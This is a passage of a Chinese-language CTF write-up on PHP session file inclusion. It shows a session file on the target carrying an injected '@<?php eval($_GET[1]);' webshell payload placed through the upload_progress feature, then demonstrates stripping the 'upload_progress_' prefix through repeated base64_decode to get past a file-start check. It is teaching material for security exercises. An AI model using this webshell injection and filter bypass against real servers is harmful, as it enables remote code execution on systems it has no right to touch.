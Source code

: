 在服务器端成功的创建了session文件：

```bash
root@e5dfc152ed97:/var/lib/php/sessions# ls
sess_u0hgfruaudns3jigq5trocbr0m
```

emmmmm , php是最好的语言。。。。

### 利用php base64_decode 的容错，去掉upload_progress_

session文件的内容如下：

```
root@e5dfc152ed97:/var/lib/php/sessions# for i in `seq 1 300`; do cat sess_u0hgfruaudns3jigq5trocbr0m ; done
upload_progress_@<?php eval($_GET[1]);|a:5:{s:10:"start_time";i:1540269279;s:14:"content_length";i:315;s:15:"bytes_processed";i:
315;s:4:"done";b:0;s:5:"files";a:1:{i:0;a:7:{s:10:"field_name";s:6:"upload";s:4:"name";s:4:"test";s:8:"tmp_name";N;s:5:"error";i
:0;s:4:"done";b:0;s:10:"start_time";i:1540269279;s:15:"bytes_processed";i:315;}}}
```

需要绕过下面这个限制，多了额外的字符`upload_progress_`

```php
@substr(file($_)[0],0,6) === '@<?php' 
```

这里可以利用多次base64解码来去除`upload_progress_`。

因为base64解码函数可以接受的字符范围是`[A-Za-z0-9+/=]`，但是如果php的base64_decode遇到了不在此范围内的字符，php就会直接跳过这些字符，只把在此范围的字符连起来进行解码。@phith0n师父早就说过这个问题，而我在做题的时候还是妥妥的忘掉了。。

我们来做个试验：

```php
$i = 0 ;
$data = "upload_progress_ZZ";
while(true){
    $i += 1;
    $data = base64_decode($data); 
    var_dump($data);
    sleep(1);
    if($data == ''){
        echo "一共解码了:".$i,"次\n";
        break;
    }
}
```

运行结果如下：

```php
string(12) "��hi�k�
޲�Y"
string(3) "�)"
string(0) ""
一共解码了:3次
```
